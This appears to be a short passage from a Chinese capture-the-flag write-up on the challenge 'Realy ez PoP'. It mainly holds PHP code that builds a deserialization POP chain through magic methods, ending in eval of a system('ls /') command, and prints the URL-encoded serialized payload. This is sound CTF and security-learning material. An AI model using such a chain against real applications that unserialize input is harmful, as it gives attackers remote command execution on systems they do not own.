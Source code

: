这是答题结果
![](https://s2.loli.net/2024/11/17/lXeSxiCkhRH4FE6.png)

#### Realy ez PoP



```php
<?php
error_reporting(0);
 
class Sink
{
    private $cmd = 'echo 123;';
    public function __construct()
    {
        $this->cmd = "system('ls /');";
    }
    public function __toString()
    {
        eval ($this->cmd);
    }
}
 
class Shark
{
    private $word = 'Hello, World!';
    public function __construct()
    {
        $this->word = new Sink();
    }
    public function __invoke()
    {
        echo 'Shark says:' . $this->word;
    }
}
 
class Sea
{
    public $animal;
    public function __construct()
    {
        $this->animal = new Shark();
    }
    public function __get($name)
    {
        $sea_ani = $this->animal;
        echo 'In a deep deep sea, there is a ' . $sea_ani();
    }
}
 
class Nature
{
    public $sea;
    public function __construct()
    {
        $this->sea = new Sea();
    }
    public function __destruct()
    {
        echo $this->sea->see;
    }
}
$ser = new Nature();
echo urlencode(serialize($ser));
```
